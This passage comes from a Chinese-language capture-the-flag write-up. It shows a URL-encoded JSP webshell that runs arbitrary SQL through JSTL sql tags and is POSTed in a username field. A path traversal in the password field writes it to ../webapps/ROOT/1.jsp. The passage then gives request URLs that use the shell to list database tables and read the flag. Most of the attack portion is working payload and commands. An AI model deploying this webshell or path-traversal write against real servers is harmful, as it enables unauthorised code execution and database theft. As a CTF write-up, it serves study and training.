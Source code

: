 ```jsp
            <tr>
                <td><c:out value="${row.t}" /></td>
            </tr>
        </c:forEach>
    </table>
```

 进行一个url编码之后直接post写入jsp木马。`param.driver,param.url,param.sql`都是我们要传给木马的参数。

```
username=%3C%25%40%20page%20language%3D%22java%22%20contentType%3D%22text%2Fhtml%3B%20charset%3DUTF-8%22%0A%20%20%20%20pageEncoding%3D%22UTF-8%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fsql%22%20prefix%3D%22sql%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fcore%22%20prefix%3D%22c%22%25%3E%0A%3C%25%40%20page%20isELIgnored%3D%22false%22%20%25%3E%0A%3Csql%3AsetDataSource%20var%3D%22test%22%20driver%3D%22%24%7Bparam.driver%7D%22%0A%20%20%20%20%20%20%20%20url%3D%22%24%7Bparam.url%7D%22%20user%3D%22root%22%20password%3D%22root%22%20%2F%3E%0A%20%20%20%3Csql%3Aquery%20dataSource%3D%22%24%7Btest%7D%22%20var%3D%22result%22%3E%0A%20%20%20%20%20%20%20%20%24%7Bparam.sql%7D%0A%20%20%20%20%3C%2Fsql%3Aquery%3E%0A%0A%0A%0A%3Ctable%20border%3D%221%22%20width%3D%22100%25%22%3E%0A%20%20%20%20%20%20%20%20%3Ctr%3E%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3Et%3C%2Fth%3E%0A%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3Cc%3AforEach%20var%3D%22row%22%20items%3D%22%24%7Bresult.rows%7D%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%3Cc%3Aout%20value%3D%22%24%7Brow.t%7D%22%20%2F%3E%3C%2Ftd%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3C%2Fc%3AforEach%3E%0A%20%20%20%20%3C%2Ftable%3E&password=../webapps/ROOT/1.jsp
```

最后使用配置文件里的信息连接这个木马查询数据库信息即可。

```Java
http://xxx/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(table_name) as t from information_schema.tables where table_schema="app";
```

拿flag：

```Java
http://xxx.com/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select f1ag as t from app_flag_xxoo_non0 union select 1;
```
